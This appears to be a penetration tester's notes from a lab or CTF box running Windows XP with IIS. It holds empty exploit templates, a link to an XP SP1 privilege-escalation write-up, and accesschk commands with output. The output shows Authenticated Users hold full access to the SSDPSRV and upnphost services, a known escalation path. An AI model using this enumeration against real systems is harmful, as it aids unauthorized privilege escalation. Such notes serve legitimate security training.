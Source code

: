 # Exploitation
## Exploit 1
- Title: 
- CVE: 
- EBD-ID: 
- Link: 

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
https://sohvaxus.github.io/content/winxp-sp1-privesc.html

upload accesschk.exe

C:\Inetpub\wwwroot>accesschk.exe /accepteula -uwcqv "Authenticated Users" *
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS


# SSDPSRV
C:\Inetpub\wwwroot>accesschk.exe /accepteula -ucqv SSDPSRV
accesschk.exe /accepteula -ucqv SSDPSRV
SSDPSRV
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS

# upnphost
C:\Inetpub\wwwroot>accesschk.exe /accepteula -ucqv upnphost
accesschk.exe /accepteula -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS
